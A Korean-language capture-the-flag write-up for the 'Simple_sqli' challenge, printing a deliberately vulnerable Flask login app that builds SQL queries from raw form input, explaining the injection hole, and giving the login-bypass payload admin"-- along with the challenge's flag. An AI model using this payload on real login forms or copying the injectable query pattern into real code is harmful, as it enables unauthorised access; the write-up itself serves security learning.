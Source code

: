 https://honey-push-30b.notion.site/Simple_sqli-f8f21f22b0b041088c8a365981009460

# Simple_sqli

# 문제파일 다운로드

![문제파일 다운로드.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a1b463d9-28d0-4ad1-b1c7-e3f4083671db/_.png)

Simple_sqli 문제의 접속 정보와 문제파일을 다운로드 받을 수 있다. 문제파일을 다운로드 받으면 [app.py](http://app.py) 파일을 받을 수 있는데 이 파일의 코드는 아래와 같다.

```python
#!/usr/bin/python3
from flask import Flask, request, render_template, g
import sqlite3
import os
import binascii

app = Flask(__name__)
app.secret_key = os.urandom(32)

try:
    FLAG = open('./flag.txt', 'r').read()
except:
    FLAG = '[**FLAG**]'

DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

def get_db():
    db = getattr(g, '_database', None)
    if db is None:
        db = g._database = sqlite3.connect(DATABASE)
    db.row_factory = sqlite3.Row
    return db

def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv

@app.teardown_appcontext
def close_connection(exception):
    db = getattr(g, '_database', None)
    if db is not None:
        db.close()

@app.route('/')
def index():
    return render_template('index.html')

@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'

app.run(host='0.0.0.0', port=8000)
app.run(host="0.0.0.0", port=8000)
```

여기서 핵심이 되는 부분을 순서대로 보자

1. 데이터베이스 execute 부분
2. login 함수
3. query_db 함수

# 데이터 베이스 execute

```python
DATABASE = "database.db"
if os.path.exists(DATABASE) == False:
    db = sqlite3.connect(DATABASE)
    db.execute('create table users(userid char(100), userpassword char(100));')
    db.execute(f'insert into users(userid, userpassword) values ("guest", "guest"), ("admin", "{binascii.hexlify(os.urandom(16)).decode("utf8")}");')
    db.commit()
    db.close()

```

데이터베이스가 없으면 데이터베이스를 연결해서 userid, userpassword를 가진 user 테이블을 만든다. 

그리고 이 user table에 guest(userid),guest(userpassword)  세트와 admin(userid),랜덤값(userpassword)을 추가한다.

즉 guest/guest 계정과 admin/랜덤값 이  데이터베이스에 추가된 상태이다.

# login 함수

```python
@app.route('/login', methods=['GET', 'POST'])
def login():
    if request.method == 'GET':
        return render_template('login.html')
    else:
        userid = request.form.get('userid')
        userpassword = request.form.get('userpassword')
        res = query_db(f'select * from users where userid="{userid}" and userpassword="{userpassword}"')
        if res:
            userid = res[0]
            if userid == 'admin':
                return f'hello {userid} flag is {FLAG}'
            return f'<script>alert("hello {userid}");history.go(-1);</script>'
        return '<script>alert("wrong");history.go(-1);</script>'
```

GET으로 요청하면 login 페이지를 보여주고

![login.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/658dece3-8c46-4e3e-9199-34562bcc1f84/login.png)

POST로 요청하면 사용자가 입력한 userid와 userpassword를 query에 검증 없이 그대로 넣어서 이 query를 db에 요청하고 그 응답값을 가져온다. 이 때 응답값의 userid가 admin이면 FLAG 값을 알려준다

즉 query 문에 userid와 password를 입력하여 admin으로 로그인 하는 것이 핵심이다.  

# query_db 함수

```python
def query_db(query, one=True):
    cur = get_db().execute(query)
    rv = cur.fetchall()
    cur.close()
    return (rv[0] if rv else None) if one else rv
```

query를 검증없이 바로 db에 넣어서 실행하는 것을 볼 수 있다. 즉 sql injection이 가능함이 확실해졌다.

select * from users where userid="admin”--" and userpassword="아무거나"

# 문제 해결

다음의 조건을 준수하면 flag값을 찾을 수 있다.

1. login 페이지에서 admin으로 로그인 하면 FLAG 값을 알 수 있다.
2. 이 때 사용자의 입력값을 검증하는 부분이 없기 때문에 sql injection이 가능하다.

즉 userid에 admin”--로 넣고 password에 아무거나 넣으면 최종적 query는 

select * from users where userid="admin”--" and userpassword="아무거나"” 가 된다. 

--뒤는 주석처리기 때문에 실질적으로 들어가는 쿼리는

select * from users where userid="admin”이 되며 user 테이블에서 userid가 admin인 경우를 가져온다. 

![답안.PNG](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/a82fcee6-66af-48a3-ae17-3195a1ff6da5/.png)

hello admin flag is **DH{1f136225e316add7bff3349ab1dd5400}** 이 나오는 것을 볼 수 있다.
